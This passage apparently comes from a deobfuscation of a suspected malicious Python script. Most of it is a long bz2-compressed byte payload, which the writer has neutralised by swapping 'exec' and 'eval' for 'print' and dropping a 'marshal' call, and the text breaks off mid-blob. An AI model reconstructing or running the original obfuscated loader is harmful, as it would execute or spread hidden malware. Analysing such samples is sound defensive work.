@B\\x97.\\xc2,~\\xf8\\x8a\\x14\\x94\\xeb\\x8emR\\xf8\\xfb\\xa5\"Qd\\xc0\\xe6\\x81\\xbe\\x9fc=s\\xd6,V\\xca\\xb1\\x80!U\\x8c\\x82\"\\xddme\\xbc=\\xf9\\x1b\\xfc\\x8d\\xe6+\\xc3\\xc8:y\\xe2\\xfcZ\\x1c\\x88\\x9f{\\xdbZK\\xb0#,\\xb8\\x9f\\x10\\xe1\\x03\\xb0H\\x7f\\x89w\\xee\\xd7\\x9dvx\\xafo\\x98vge%\\xdc\"\\xd1\\x0f\\x9dQ?\\x83N\\xe3\\xb4\\x14j%|C\\x08\\xb0\\x16K\\xc1H\\x9d\\xf8\\xbc\\xf4\\xae\\xa7\\x8aA\\xd0\\xbfCM\\x85w\\x82)c\\xcc\\xd4\\xcaV\\xc52j\\x14ObB&\\xe7NQ\\x9e\\'93M\\x8f`!\\xcc\\x80#%\\x04\\xd2\\xeb\"T\\xbe\\x8d0\\x04\\xa5\\xad\\xa3\\xab\\xf6\\xd5\\x86\\xe214\\xb1\\xa6\\x12\\xa6*t\\x94Q\\x0c!\\xc1\\xe0#\\x18\\x8a\\x81\\xe4\\x12A\\xccK\\xc6\\xa3\\xa9\\xd0kh\\xbb\\x11m\\xd7\\\\\\xe6\\xe8wr\\x990\\xc0\\x83\\x85\\rC\\x9d\\xc8\\xc7\\xfcv\\xf8Y/\\x93\\xc30NFe\\xc2\\xf7s\\x91\\xb7B\\xa6\\x10bb\\x11\\x18\\xb0\\x19\\xf4\\xa1X\\xb9\\x92\\xb3\\xdc+\\x962\\x9c\\x0bt\\xd9l,&\\xe8\\x1f\\x0b\\xfe\\xf4\\xb7\\xcd\\x0e\\x11\\xc9#Z\\xb0\\x90d2]\\x06\\x89\\xcd\\t\\\\\\xa3\\t\\xad\\x8d\\x9b\\xe5Z\\xd0\\xa6\\xa73q{>_\\xd7\\xdd\\xe21\\x83\\xa2k\\x04DO\\xc0Ag;Z\\x99;\\xdf\\x14\\x9e<\\xe3v\\x1d\\x99\\x8b\\x9a\\x98d\\xe6\\x05\\xcd)\\x94\\xc2\\x9b:F \\xcdG\\xdeP\\x869\\xdd)kg\\xd2\\xde*\\x1a\\x9c\\x04\\x10\\x12z\\xda4\\x8d,\\xcb\\xec\\xcbR\\x99\\x0f\\x9c\\x81\\x08\\xearz\\xe5R\\x17\\'Y.=\\x9el\\xe9\\xc4\\xeew0\\x08\\x06\\xc0g/m\\xe0\\xf04\\x1c\\x0c\\xfcN\\xc0Q\\xaa\\xbf\\xc5\\xe8\\xa0y5\\x88\\x83\\xdet\\xa3\\xce!e\"\\\\\\x13F\\xeeo\\xf7]\\xcd\\xa0t\\x01F[h\\xad\\xa0a\\xd7\\x02\\xda5\\xcdo\\xa9>\\xf0\\x88P\\x9dM\\xb3A\\xc8\\x92\\xd6\\x8b\\x1b.\\x8b\\x8f\\x9b\\x8c\\xda\\x9cQ\\xa1o\\x14\\xeb\\'\\xeb\\x9f?\\xf1\\xd5\\x87P\\x0c\\xb6g*\\x1bqX\\x93P=@\\x1c\\x0b\\xab\\xec\\t\\x1dq\\xa9\\x94\\x16\\x10u\\x0ez\\xc7\\x9eG*\\x12\\x06K\\xf5\\xb8\\x1ca\\xe7 \\x1a\\xf0\\xb5\\xa8\\x879\\x86\\x18\\xe2\\xb0\\x96\\xc1]~`ac[\\xc2\\xde\\x83\\xa5G2@[2\\x96\\xc5f\\x7f\\x17\\xa7\\n\\x1b\\x9cU\\x06\\x07;`\\x96\\xa31\\t\\xe8\\x94t\\xc0\\xbdzW\\xaeW\\xb3^\\xf4\\x9e\\xf6\\x834\\x0c\\xb2\"\\x8e\\x94\\xda\\xafp\\xa4%N\\x93\\x045C\\xa1`A\\x02\\xc1-h\\x80\\x8d\\xb6\\xc9d\\xc5\\xde\\x98-\\xa2\\xbf\\xafB\\x8c\\xd2\\x9a\\xbe\\x98,\\xc4\\xfd\\x93(V\\xd1j\\xd3\\x1cA\\xb5\\xae\\x7f\\xae\\x8e\\x9c\\xb0)\\x8b5\\x96\\x0c\\xffR\\x9e\\r\\t\\xae24\\xf6\\xf6\\xfb\\x85=\\xc7\\x8dd\\xc8O1\\xcb\\xce\\xb2*\\x98\\x1d\\xb5LW\\xaft\\xcb\\xcb\\xbe)\\xfc\\xc0L\\xacJ\\x03\\x95\\x1b\\x85\\x94\\xd0^\\xe2uv/\\x00\\x10\\r\\'\\x1e\\xc7\\xb5\\xfd\\xe7\\xe6\\xaf\\x03\\xa6\\'\\x88U\\xab\\xd9\\xa85\\x8a\\xca\\xd4\\x84o\\xb0\\x83\\xc4\\xb9\\x1a\\xf4\\x8c\\xc0\\xb9T\\xae\\x86\\xa2cP[\\x80D\\x1a\\x91z\\xca\\xb0\\x83`4\\x84\\x8aM\\';r\\x91d%\\x99\\x89\\xa7\\x10Xp\\xc8\\x96\\\\\\x82[\\xe8\\x9b\\x01\\xc0\\xdd\\x07\\r\\x10\\xc7\\x85\\x83R\\x04Tc\\x1e\\x99<)\\xc9\\x98`\\x16\\x9c\\x82bl\\xac\\xa9I\\xedh+P\\xcc\\xa7l\\xb17\\x97S\\x1b\\x83W\\xbe\\xa5|\\x083ZJ\\x80\\xec\\xcfm\\xc8\\xd9\\x8b\\x1a!\\xbf\\x0c\\x14\\x12<{f\\xa2\\xa0\\x05u\\xb2\\xf9\\xf2\\x9a\\xde\\x95r\\xa0\\xf5>\"\\'\\xe9\\xe8\\xae\\x12\\x1a\\x12\\x92Q\\x11\\x91\\xa8\"\\xe2\\xbf0\\xb2\\xe5Z\\x88D\\xe6\\x01\\x88#\\xd3\\xaa\\xabV}\\xbd\\xd6Kh\\x1aOG\\x96*\\xa0\\xd7\\xad\\xd8\\\\h\\xc3U\\x80\\x7f\\xa0\\xb3\\x04\\x86\\x0f\\xa4\\xb2\\xb5\\xfb*VV\\xa5\\xab\\xc5 \\xba(U*\\x1e8\\xa7\\xa1R\\x17\\xb5H\\xcbh\\xf8\\x1d}\\xf5I\\xa7UY\\xca8#\\xf6k!&|>\\x13(<\\xb3\\xcf;#\\x8b\\x11\\x8e\\x9f\\x07I\\x03 \\x13\\xf8\\xde:\\xceW\\xc0,V\\xc0X@\\xd0\\x02\\x04bT+\\xc3\\xd0\\x14uu\\xeb\\xbbE\\xa4X\\xef\\xed\\x1c(\\x9a\\xcc\\xf9n+\\xf0\\xe0f\\x9fv/v6\\xed\\xd2\\xc6/\\xca^\\xd0\\x8bt\\xe9&\\xdc\\t\\x93\\x80\\x8a\\xa4F\\xa6xn`\\xb7\\x9d\\x86\\xc7c\\xa0Y1\\xe6\\x89\\x92\\x08h\\x8b\\xf8)8?\\x13\\n\\xe6<\\xd8\\xea5\\xec\\x80\\x01b\\xc6\\\\\\xbe\\x90\\x07\\xc8.a\\xca\\xca\\x91\\xd8hQ\\xb1\\xc4\\xf9\\xf2\\x1a\\x95\\x8c\\xe1h0\\r+\\xb0:\\xd4\\x02$!PC\\x83P\\xe4L\\x99\\xb9\\x16q\\xd4\\xa1\\x98\\rJ0\\x97\\xd7\\xdb3|\\x80\\x81\\xe8\\xe1.\\x00@\\xa8\\xca\\xc7\\xd5\\xfcK\\xc9\\xaa\\xc6\\xec\\xc7\\x97\\xbc\\x99\\xb6m\\xf1\\x87\\x9aM\\xbdO\\xd3?\\xbc\\x97\\x93\\xaflr\\x9c=\\x8f\\xce\\xfe\\xd4*\\x03\\x92?*T\\x18<\\x85\\xc2+\\x04\\xc3@\\x04\\xf5\\xf3\\xc0ji#\\xe4p\\x18\\xb5\\xcd\\x1f`b\\x83\\x99\\xa3\\xfc\\x00?\\x8fK\\xbc\\xa6g\\xd9\\x00\\xd2v\\xdf\\x97+\\xd3\\x961\\xa8zm\\xe5\\x9bP\\x04\\xf2L&? \\xc0`\\xb4\\x00\\xca\\xf0a\\xbe9C\\x80b\\x87E\\x83\\xceh\\xf93t}[\\x1f\\x9a&\\xfa\\x0c\\x1a`\\xe5\\xcc?e\\xdb\\x06\\xe3<\\xf7IGH\\x9c]%hp\\xec?$\\x19\\xb9O\\xd1)\\xb9\\xb2\\x0c\\xb7\\x03ZGX\\xe3\\x92\\x08\\xd2\\xc9VBp,\\xb7\\xec\\x943\\x8a\\xd2\\x1f5A@HQ\\x9d \\x80\\xa3p8\\xf1\\xa2M\\x07|\\x95n\\xe3\\x92k\\xf9\\xb5\\xd0 \\xa7\\xc0\\x85/\\xfcC]\\x04<\\xd5\\n5\\x87\\x11\\x17\\xe4o@\\x9b*\\xc0\\n\\xc3NkOh\\xf8n \\nj?\\x9f=\\xf5}\\x06\\x15h\\x977A]\\x0b\\xb8\\x94\\xbe\\xb0\\xd7\\xbe\\xba\\x8e\\xb7\\xafn\\xa6\\x9f#\\x08?5\\xde\\xddm?\\xec\\xc6\\xaa3\\xd6jV\\x0b.\\xeam\\xab\\x94`\\x95O\\x13\\x188\\xc6\\xc8I$9\\x83\\x7fil\\xf2\\xf9\\x17\\x19h\\x93*\\xbfk\\xb2\\xea#\\xad\\xbf\\xcb\\xe5{C\\x15\\xcef^\\xca\\x88\\x99Wya\\xac\\x8c\\xdb\\x11\\x16\\xd9\\x07\\x05y\\xe5C\\xb4,\\xc2\\xc3\\xcdP\\xd2\\xec\\xe4\\xceT$\\xaa*\\xa1&[[\\x8d\\xb7\\xc5\\x9b\\xc3C\\xba)_F\\xba\\xbd\\xac<N7)g\\x9f\\xc1\\xd8p\\xab\\'\\xd9#K\\x966z\\xfc\\x9d\\xeb\\xd7w\\xb7\\xd0\\x89\\xa4\\xb9 \\x88\\x88\\x846\\xb5\\xa1\\x84J\\xce\\xa2\\x0b\\xe877\\xf7\\xf3\\x17\\x0c\\xd3\\xd0)\\xe3\\x07\\xdcvm\\xa0#\\x96\\xffx\\xaa\\xe6E_\\x07aO\\xefj\\xba\\xe3c\\x9b\\xdel$\\x83h\\x9e\\tL\\x1f\\xa0}%\"p\\x9c\\xd4\\xd1\\x9e\\x8e\\xfdf]\\t\\xac#\\xbf\\x15\\x9c<\\xf3-\\xc2Zj\\x99\\xae\\xc8.\\xb3\\x9d5\\xfa\\xe2\\xae\\xea\\xba\\xf4\\xc63\\x04Ot\\xf9\\x12\\xd1{nMJB\\x1b,\\xbc\\xbek\\xa0\\xca\\xa6\\xa5\\x93/\\x0f\\xa1)Y\\xb4v2L3\\xa5\\x8d\\x0cq(\\x0f\\x18\\x10\\x82P-\"\\xe5\\xe1\\xe8\\xb3\\xa3SxJ\\xcc\\x0c\\xdc\\xae-n\\xf7}w\\x19\\xae.\\xcbi\\\\b\\xdf0[\\x10\\xe9\\x1a2xVZK\\xd0S\\x88\\xd2c&+\\xf7\\x83Oj\\x9d\\xab\\xb7Uh\"z\\x97\\xf0\\x9d\\xa7\\x92\\xd6[(w\\x0e)\\xc8\\xffM|\\xa3j\\xa15\\xc7\\x04\\xe4Z\\xd8\\xa2\\x88\\x08\\r\\xea\\x90J\\xbaM\\x01\\xb0\\xd2uQ\\xc0\\xa1\\xcd\\\\\\xadV\\xe2\\xf3.\\x0bl\\xe8\\xa9^$\\xc9\\x95\\xf6T\\x13W\\x18\\x824\\x016\\xc8%,\\x08\\xbe\\n\\xa2\\xd5AB\\xdd5[=m7:\\x06\\xa0\\x80\\x86\\x04\\xb5\\xe5E\\x83K>qyY\\x94S\\xb8\\xd80\\xd6[\\xc2\\x84k\\x0b\\xdb\\xec\\x15\\xb6\\xcf-\\'\\xf0e@f\\xa9Q6U\\xcbi\\x13N\\xbas]3Q\\xb1\\x8diFP\\xbb!P\\xff\\xd2\\x82n\\x98\\x9dH^\\xd6k\\xd3\\x8e%\\xe0k\\xca\\x9b\\xd4\\xff\\x90\\xba-Q\\x15\\xa5\\xd3\\x14O\\xe0\\x12\\x06]\"\\xb2\\xa8\\x82\\xac`\\'L\\x98\\xbd\\xbcb;\\xad\\x13T\\x95\\x15o\\x1a!\\x89\\xc3\\xadN|z\\x9bv\\xf9\\x98\\x14\\xca\\xff\\xe2\\xeeH\\xa7\\n\\x12\\x11\\xa5N\\xe0\\x00')))\nexcept KeyboardInterrupt:\n    exit()"}
```

The script needed to be parsed and handled safely. I replaced `exec` and `eval` with `print` to avoid executing the malicious code, as well as removed the `marshal` call and converted `\\` to `\`. 

```python
try:
    import marshal,lzma,gzip,bz2,binascii,zlib;print(bz2.decompress(b'BZh91AY&SY\x8d*w\x00\x00\n\xbb\x7f\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xfe\xee\xec\xe4\xec\xec\xc0?\xd9\xff\xfe\xf4"|\xf9`\r\xff\x1a\xb3\x03\xd1\xa0\x1e\xa9\x11\x07\xac\x9e\xef\x1e\xeez\xf5\xdb\xd9J\xde\xce\xa6K(\xe7\xd3\xe9\xcd\xa9\x93\rS@M\x134&\r\x11\x94xF\x11\xa6\x89\xb2\x99\xa6\x94\xf0\x1ai\xa1\xa6\x9a\x03AF\xd1\x1e\x9e\xa1\x9a\xa7\x89\xa6L\x84\xf5\x1ayC\xd44z\x993S h\r\x0f)\xe9\x03@\x03LG\xa9\xa0\x1a\x04DI\xe8\x19$\xf4\xc9\xe92a\xa3D\xc9\x9aL\x11\x81O\'\xa4\x9e\x935=M\xa4\xd0\xd1\xa6&F\x81\x93L\x86\x80\x00\x00\x06\x80\x00\x00\x00\x00\x00\x00\x00\x00\rM\t4\xd1\x80L\t\x91\x18\xa9\xe4\xc6\x94\xd8\xa7\xb5OS\xc9\xa4=#\xf54\xd4\x06j\x07\xa9\xeaz\x9a\x1e\xa1\xa0z\x86\x83M\x03jh\x00\x03A\xa6@\x1a\x00\x00\x03\xd4\x00\x1e\xa7\x944\x005=\x10\x93\x10\x9b@\x994\xc8\x99\xa3J\x1bM\x1ajyOF\xa6\x98\xcab\x0c\xd16\xa0m&\x8fH\xd3@44\x01\xa0\x00\r\x03@\x004\x19\x00\x00\x00\x004\x1a\x01U44\x00\x03@\xd0\x1a\x0044\xd0\x06@\x1a\x00\x004\xd0\x18\x98\x86@42d\x00h\x1ad\x00\x00\x00\x004h\x00\x00\x00`\x91$Bhh4`\x9a\x19\x04\xc3@\xa9\xedS\xf4S\xd2\x1b\xd4\xda&M&\xd2m#\xcai\xfa\x8c\x93e=@\x1e\x91\xa0z\x8cjh\xd1\xa6\x80\x00\xd0\x004\x1e\xa0\x01\xa0\x1a4i\xb54\xd3\x10\x1f\xdf\xcb\x98\x99\r\xa1\r\x8c`\xd86\x0cd\xe9\xc3\x06\x9bm6\xdbm\x1b\xf1"\xf0\xd2\xa7\xd5p,\x171gAcG]V\xcfvr\x9e\r\x9d=\x13?N\xfa\x8bw3l`\x0e\x1c\xda\xdc\xb0VU\xa0\xe7\x8df>$\x10\xb5\xf2+fu\xd6\xd5\xed\x9a\x9c|b\xb1\xc4\xd1P\xd0\x95\xf8\x10\xc0\xb8\xd2\x10\\ 9\x83UF#^H\x12\x12\x91\x98\x9c\x1d\x89BQ\x8eC\x92\x066\x8bDp\x8a\xaa\x03e%\xad\xc4\xe5o\x8f\x01\xa0\x11\x84\xac\xb8H\x01^\xb7\x84y\xed\x0cU\xb37\xd7[w\xddm\xf4\xf9\xdb\xee7\xa6\x98\xe2-A\xea\x1c\xd6\xbe\xbf1\xe2\x03\x89A:2\xb0n\x0b\xc169\x8a\xab\n\\\xa4\xa0\xbb{ \x11\xa7\x1e-\xbc,P`F\xad\x08\xe1\x8dY\x9b\x02,\x8cs#eg%\x97\x071\xda\xe8XA|>\xa1\xae\xaah%\xc4]\x95w*4i[\x85\xee\xee=\xcf\x935q\x02uo"\xaf\x81/\xc0\xca\xbdF;\xf6\xef\xaa\x99A/ \x91\xef\x0b\xe1\xd9\xa4`w\x9e\xc6\x88\xf2\xa9S\xe3\xa6x\xaf|\x0b*IE\x02\x8a(NL\x00]?\x12\x10p=w\xc6\x92G\x8a\xd2\xff\x17}~y3\xe3\xe9f\xf1\xff\xaf\xf2\xa5\xb9\xa5\xcc\xfd;W\xdd\x1e\xcd\x9e\x0bD5\x0b\x0f\xc6wFW\\\xd5\x8d Gh\xc1\n|x2\x99&\x8e\\\xa5Ba\x7f6!\x10\xe4\xd0p\x18\x90\x97k4\x1a\xec@\x1b~~\x8d\xfe\xee\x96\x07\x8f\xd6\xe1SS\xcdOv\x8c\x89\xd2I\x150\xa5\xdd\xaa>E\x07\xdb\xf8l\x97V\xa0\x1c\x8d\xd9\xa50\x17[h\xd1\x02\x08!f\xad\xea\xa0"\x88\xceC\x0c\x0fVG^\xc0\xea_\x10\xbd\xa1m{5IL\xbb\xd2\x9an\x07\xd9a\x98jgIwr&&\x06\x0c\x8aH\xe73\xdd\xb1\x050\x9f\x1f\x1f\xe1J\'\x9d\x8cY\xa8\x11\x0b\x08\x0fd*\xf2\x9d\xc2\x84$\x10\x8a\xd9\xc1\xe05\xecs\xdeC\x9a\xd1\xb7\x85\x0eNiJj2\x9ag\x12\x94M)\xd2\r\xf3\xa8\x84\xc9\xc2\x06\xe1\x14\xda\xd1\x1e\x1bV\x1a\x0b\xe666\xc6~V\x81/r\x98\x95\xf2g\xc7Mm<\xed\xb0\xe9ko\x01\xcb4\x88\x17\x84\x8a"J\x9bJ\x18\x0ch;\x84\tv\xcb\xbaEL\x99\xdf\xaa)q/t:45\xba\xbf\x84V\xf5\xb3\xad\x8c\xee\x11\xe2(\x18>\xea3\xa9\x98\xa8B\xcf\xb5\xdc\xed\xacI<\x90\x06\x1d0)Y@\x86\x07\x7f\xee\xb9\xf5{m\xdf\x83Hf\xb3T\xd2\xdf\x9c\xc6\xab\xac\x13\x99\xcb\xec\xf5K\xf2\x80\xce\x9fC\xf4w\xeb\x1fa\x08\xd8\r\x80<%\x90w\x8b\xe8}\x8d\xda\x96\xcf)\x1a\xbaD.\xa3\xc2\xe5E\xe3\xc9p\xa8&w\x10\x14\xc6$v-I\xd9\xbd\xcf\xbf\xe1\xce\x19\xcdf\x07\x0b\x7f\xd7\xc8:\xa6nw\xfc=M\\n\xc7\x02\x96\n\x85".j\xa8G}\x04\xef\x1e+\xb0)4\x82G_\x05\xfe\xbe\x94\xf3\x03\xd4*\xe2\xf7T\xa8\x97\x97\xc3X\x8a\x9a;\x9a\xbei\xc9\xad\xd1\xd2\xcf\xde4fpz\xce\rY\xa5\xa2s\xad\xf8(S\xf3*\x85\xea$\x14\x18\xb6\x1a\xbb\xc5.O\xc3\xb7\x89\xeb9\x1a4\xd3\xe0\x999r\x99\x9a(\x84\xce\x17\x0bk\xa59\xd2X\x88\x815\xab\x10x\x9f\xb7\xc5\xe7_R\xaa\xaa\xab\xf2\x9e\xe1\xb9\x8aK\x91\xa3\xa1\xa7\xc0\x94\x8f3\xca\x82\x8azY\xc4g\xed\xcf\xa9BO:`\xb5\x1b2\x12\xbb\x89\x17[m\xa2\xe8\xc4\x0ctJ/-\xa5\xbf\xf1\xffq\x7f\xda\x9a\xd9\x00\xb2\x0b\x98L\x7f\x17\xb4\xc9g}\x1e\xfeSh \xc3\x98fIq\x05]\xb1\x8aB\x98\xc7\x94\x03=2&\x06v@s\x0fX\xb3\xadZ\xcf\xac\xf6\xae\xe2\x0b\xaa\xe4\x99\xf3\xf5<\xd7\x81mu\x87\xb5\x97\xd2\xc3\xb4p\xb5\xad\xd9y\x15\xf2\x06,\xa7;\xe2\xe4\xcaH\xbf\xd5\x92@\xae\x0c\x91\xddD\x9by\xd5\xccj\x7f\xa9\x19\xad\xa3\x07\xbdI\x84\xa9|k/\x0f7=ji\x12\xba\xd4\xfaI\x8c\xa9\x94\n\x9b\xa43\x0e\xa6O\xd3\x8d\xf5\x83\x06\xd8\xaehhl\x05*;\xda\xaa\xd9he\xc8\x8f2!\x98\xd6-B\xa9\xcf\x9a\xb9_\xa4\xec\xda\x08<\xe3\r\xeem\x1el\xd8\xfc}3\xc4\xbal\xe5,P\xe4^\xae-\x97\x91j0\xec\xc8bB\x85\xd1.\xf5T\xa4\xf1\x83\x89\xc4-\\\x00\xf0\xbb\x1a\xd2\x89K\xb58\x96\xe2\x88\xdd<q\r\xbb0\xc4Ac\x95.v\x94\x08>\xca\x8b\xf5\xa1\xaf\x1fVH\x16\n\xfe+\x02\x9f\xe9\xa7VP\x1a\x03m\x01\xab\x0b\xf8\xd1&\xacq\xadg\x0f\xfc\x98N\x91XRQ\x88\xcf- 4K\x84q"\xec\xb2\x8c\xe6e\x86 \x9ff\x10\x83p\xc5\xc1C\xf4\x8c5\xda\xe5\x82)\xcf\n\xbfWZ\xc0\xd1\x9b`\xacFt\xba\xed\xaf#\xc8\xf8\x96\xe9=Zd\xa4h\xa3d>\xb2\xec\xac\x98\xe6%\xca\xb2r\xe2\xd7\xb5\x80\x8c\x1cb0\xadC\x8a\xdb\x1e\x1d\x9ek\xf0>\xcf\'7=\x9b\x19\xdee@\n\xaa\xac\xd2N%$\x91]\xa7\x13c\xe7\xce\x95\x96\x81Yh\nS\xd1\xdc\xb5\xe3d{\x13\xc5\xeau22\xcc\xec\xe1\x19\xb6\n\x8e?\n\x01\xdey\x04t\x02"@\x82\x12J\x88\x86\x1b\x83Un\x03Uy\xed\x82\xc3\x19\xdd\x86\r\xda\x1a\xde\x7f\x14\x90\xb3\xaf?\x05\xd3\xf0\x05\xe9\x85\x83\x99m\x8ae\x86\xd59Zl\x83i\x04u<\x92]\xe9\xca\xbc\xf5k\xcd\x8e,\xc1\xfcU\xc7\x84%|>\xfbt\x9c\x04\xf0}\xceQ|Wy\x9eN\xa8\x19#\x12\x94\xf1\xfdX5`\x19\x0e\x87NwC\xa5\x80p\xb1\xd9\xc73F\xe8\xa5\x9c\x00\xe5\xb1)\xd3]\xa6\r\x9d\x1a\xdd\xa4\x91\xb9z}\x1bg\x12\x9e<\nB\x88\x0e\xdf:\x1c\t\xc3\xa3\x85\x1b\x98y\xec\x0c\x9a\x12Pr\xcdC\xea1\x7f\x01\xef\xc3\xb0\xdd16\xe7\x1e\xf7\x1fv4\x17\r\xd3\x86\xceE@\xce\x15T\xce\x00\xf3@\xd9\r\x05\x19@V\x1c"\x86\xa6\x9c&,\x05\xa6%\x02n(^9\x86\xa65#\xc8\xb5]\x88\x8e\xa2,1\xc3u2\xe0\xa8 \x01\xff"|\xffG\x0b6\xbeU\x8a\xf7;YD\xda\xb4u)l\xf6~\'\x0e\x9b\xb3/\x98Q1\x04\x12JI[\x11*\x81\t\x07\xcb\xadw\xc9\xbf\xbf\xbe\xbaa\xc6\xce\x9e)\x98v\x15\x01j\xa15\xbd\xd0\xcb.\xe3\xd7\xa2`\x15\x9e\x854\xd3\x1am\r\x13A\x9a\xa5\x0b\r\x81\r\xb9\xb3%)Bmr\x12L\r>\x87\x07K\xea\xden\x87\x01c6%\xea\xa5\xd8\xb54\xc0\xca\xb8SBd{O\x9c \x88\x86\xee-80\x81Vv\x08[P\xc221\x9e &,t\x11/9\xe0\xd0\x1f\x1d\xcd\x94\xb9\x95\xc7V\xcb\xd6\xf2M\xf7\xf4gT\xa2\x19\x94\xd9\xfb\x7f\x15\x90\xc5\xb2&\x9e}\x0cq\xe8\xdc(\x1a{l\\\x88\xb8\xab=\x8b\xaaCm\xc0\xcb\xb5w=\xf8\xff\xa3\xdfY\x94\xa5\xa5\x9d0\x04U\x8al\xb8iw\xa3\xb0%\xf1 \x03H\x80\xc9$v\xe6\x98|#DYP\xa4\xfe\'\x04\xe0&\x88+\xeb\xce:\xa0cm,\x1aQ\xfdN\x1c\x97\xa3\x98\xb5q\x1c\xefE\xabEC\xaa\x82\x00\x8c\xcb\xee\x8d\xd6l\xe5\\\xca;\xf9d\xd4\xa5\xaen\xfaW=\x88kU9\xfe\x95&c\x13\x0cL7+5\xe2\xde_\x9f\xf6t\x05Hn\xe2\xff\x9dzi\x9a\x03@`u\xea\x98\xb5\x8e\xd9\xa3W\x85\x96O\x85\x9bf\xc1\xb6\xa4x\xa2/=\x0f\xa6T\xde\xac\xc6\x84\\\xa5q \x8eZ\xd5p*-qC%\xec\x85aH\x90>\xc1\x97%B@\x12B"u\xd5R\x0f\x10`&\x9ai\x1cl*F\xefOr\xaee\xaf\xa9\x88q\xa2k93\xe6\xf6\xf5\xa8n\xd0\xf42\xe5<\xf7}\xad\xdc\xd4)L\x11\x97\xd4\x92\x11E\xe1\xa0\xa4\xe4{\x9a\xe6T\xda \xee\x83\xb7\xce\x17\xb0\xb3\x0c\x11\x8f\xc1t\x0c\xb5\x87\x9e\xbb\x0f\x0fql\xe8T\xc5\x02+E\xdd\xbcQ\x92\xb8\xb8\xc8*,(K\tUk\x16\t\x86\xb9@\'\x04\xc1l&\xcf)\x1f\x14V\x0b\x80\xd2\r\xab\xec\x07) \x0c\x0f\x80\xee\x16\x14\xf9\x9c\xcbKE\xed`;5\xa9\xc2\x105X[\x87\xd6j\x95\x18\xcaY\x99\xba\xe6\xe8\x04q\x8344\xceW\x00\x05\xc4\x15\xfb\x82\xea9\xfcJ\xa3L\x8e\n\xc1\xb4\xb3sY\x84`\x98\x99\xccy\x0f{\x02P\x8e\n\xb3\xe5\xeclN\xa8\xb5]\x84!I\x80\xa4\x8at&\xe4eu\xba\x15T\x1fv\x90fx\x81P9\x1a\xf5G\xa9\xa2\x9c\xed\xc4W\xa0\xbb\xa5j\x1e\x1b\xd9%J\xb3z1I`\x19s\xd9\xb0\\\xca\xfdd\xd54!\x829\xc2|\x0c\xed\xdb\x0e\xde:\xcb%l-\xf6\x8f\xef\xde\xe2\xa5h\xb6e\xc5\xc7!\xc6 @B\x97.\xc2,~\xf8\x8a\x14\x94\xeb\x8emR\xf8\xfb\xa5"Qd\xc0\xe6\x81\xbe\x9fc=s\xd6,V\xca\xb1\x80!U\x8c\x82"\xddme\xbc=\xf9\x1b\xfc\x8d\xe6+\xc3\xc8:y\xe2\xfcZ\x1c\x88\x9f{\xdbZK\xb0#,\xb8\x9f\x10\xe1\x03\xb0H\x7f\x89w\xee\xd7\x9dvx\xafo\x98vge%\xdc"\xd1\x0f\x9dQ?\x83N\xe3\xb4\x14j%|C\x08\xb0\x16K\xc1H\x9d\xf8\xbc\xf4\xae\xa7\x8aA\xd0\xbfCM\x85w\x82)c\xcc\xd4\xcaV\xc52j\x14ObB&\xe7NQ\x9e\'93M\x8f`!\xcc\x80#%\x04\xd2\xeb"T\xbe\x8d0\x04\xa5\xad\xa3\xab\xf6\xd5\x86\xe214\xb1\xa6\x12\xa6*t\x94Q\x0c!\xc1\xe0#\x18\x8a\x81\xe4\x12A\xccK\xc6\xa3\xa9\xd0kh\xbb\x11m\xd7\\\xe6\xe8wr\x990\xc0\x83\x85\rC\x9d\xc8\xc7\xfcv\xf8Y/\x93\xc30NFe\xc2\xf7s\x91\xb7B\xa6\x10bb\x11\x18\xb0\x19\xf4\xa1X\xb9\x92\xb3\xdc+\x962\x9c\x0bt\xd9l,&\xe8\x1f\x0b\xfe\xf4\xb7\xcd\x0e\x11\xc9#Z\xb0\x90d2]\x06\x89\xcd\t\\\xa3\t\xad\x8d\x9b\xe5Z\xd0\xa6\xa73q{>_\xd7\xdd\xe21\x83\xa2k\x04DO\xc0Ag;Z\x99;\xdf\x14\x9e<\xe3v\x1d\x99\x8b\x9a\x98d\xe6\x05\xcd)\x94\xc2\x9b:F \xcdG\xdeP\x869\xdd)kg\xd2\xde*\x1a\x9c\x04\x10\x12z\xda4\x8d,\xcb\xec\xcbR\x99\x0f\x9c\x81\x08\xearz\xe5R\x17\'Y.=\x9el\xe9\xc4\xeew0\x08\x06\xc0g/m\xe0\xf04\x1c\x0c\xfcN\xc0Q\xaa\xbf\xc5\xe8\xa0y5\x88\x83\xdet\xa3\xce!e"\\\x13F\xeeo\xf7]\xcd\xa0t\x01F[h\xad\xa0a\xd7\x02\xda5\xcdo\xa9>\xf0\x88P\x9dM\xb3A\xc8\x92\xd6\x8b\x1b.\x8b\x8f\x9b\x8c\xda\x9cQ\xa1o\x14\xeb\'\xeb\x9f?\xf1\xd5\x87P\x0c\xb6g*\x1bqX\x93P=@\x1c\x0b\xab\xec\t\x1dq\xa9\x94\x16\x10u\x0ez\xc7\x9eG*\x12\x06K\xf5\xb8\x1ca\xe7 \x1a\xf0\xb5\xa8\x879\x86\x18\xe2\xb0\x96\xc1]~`ac[\xc2\xde\x83\xa5G2@[2\x96\xc5f\x7f\x17\xa7\n\x1b\x9cU\x06\x07;`\x96\xa31\t\xe8\x94t\xc0\xbdzW\xaeW\xb3^\xf4\x9e\xf6\x834\x0c\xb2"\x8e\x94\xda\xafp\xa4%N\x93\x045C\xa1`A\x02\xc1-h\x80\x8d\xb6\xc9d\xc5\xde\x98-\xa2\xbf\xafB\x8c\xd2\x9a\xbe\x98,\xc4\xfd\x93(V\xd1j\xd3\x1cA\xb5\xae\x7f\xae\x8e\x9c\xb0)\x8b5\x96\x0c\xffR\x9e\r\t\xae24\xf6\xf6\xfb\x85=\xc7\x8dd\xc8O1\xcb\xce\xb2*\x98\x1d\xb5LW\xaft\xcb\xcb\xbe)\xfc\xc0L\xacJ\x03\x95\x1b\x85\x94\xd0^\xe2uv/\x00\x10\r\'\x1e\xc7\xb5\xfd\xe7\xe6\xaf\x03\xa6\'\x88U\xab\xd9\xa85\x8a\xca\xd4\x84o\xb0\x83\xc4\xb9\x1a\xf4\x8c\xc0\xb9T\xae\x86\xa2cP[\x80D\x1a\x91z\xca\xb0\x83`4\x84\x8aM\';r\x91d%\x99\x89\xa7\x10Xp\xc8\x96\\\x82[\xe8\x9b\x01\xc0\xdd\x07\r\x10\xc7\x85\x83R\x04Tc\x1e\x99<)\xc9\x98`\x16\x9c\x82bl\xac\xa9I\xedh+P\xcc\xa7l\xb17\x97S\x1b\x83W\xbe\xa5|\x083ZJ\x80\xec\xcfm\xc8\xd9\x